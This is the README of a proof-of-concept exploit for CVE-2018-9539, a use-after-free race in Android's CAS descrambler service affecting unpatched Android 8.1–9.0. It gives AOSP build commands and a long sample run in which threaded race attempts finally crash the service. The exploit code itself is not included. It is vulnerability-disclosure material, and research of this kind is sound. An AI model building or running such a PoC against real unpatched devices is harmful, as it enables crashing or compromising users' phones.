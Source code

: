 # CVE-2018-9539

Proof-of-concept code for CVE-2018-9539

If you have any questions, you are welcome to DM me on Twitter ([@tamir_zb](https://twitter.com/tamir_zb)).

## Build

In order to build this:

1. [Download the Android source code](https://source.android.com/setup/build/downloading).
2. Put this repository in `AOSP/external`.
3. Run the following commands:

```
cd AOSP
source build/envsetup.sh
make cas_race_uaf
```

## Result

Running this PoC against an unpatched version of Android (8.1-9.0 before November 2018) should result in a use-after-free. Note that this PoC is not really intended to run on Android 8.1, as it expects the UaF to crash the service, which only happens in Android 9.0, so running this PoC on Android 8.1 will result in an infinite loop.

Here is an example output of running this PoC on Android 9.0:

```
Objects prepared

Attempt #1:
Sessions prepared
Descrambler session set to session1
Threads prepared
Running threads...
Descrambler session set to session2
Thread #0 result: session2
Thread #1 result: session2
Thread #2 result: session2
Thread #3 result: session2
Thread #4 result: session2
Attempt #1 failed, retrying...

Attempt #2:
Sessions prepared
Descrambler session set to session1
Threads prepared
Running threads...
Descrambler session set to session2
Thread #0 result: session2
Thread #1 result: session2
Thread #2 result: session2
Thread #3 result: session2
Thread #4 result: session2
Attempt #2 failed, retrying...

...
...
...

Attempt #204:
Sessions prepared
Descrambler session set to session1
Threads prepared
Running threads...
Descrambler session set to session2
Thread #0 result: session2
Thread #1 result: session2
Thread #2 result: session2
Thread #3 result: session2
Thread #4 result: session2
Attempt #204 failed, retrying...

Attempt #205:
Sessions prepared
Descrambler session set to session1
Threads prepared
Running threads...
Descrambler session set to session2
Thread #0 result: session1
Thread #1 result: session2
Thread #2 result: session2
Thread #3 result: CRASHED :)

Succeeded in 205 attempts
```
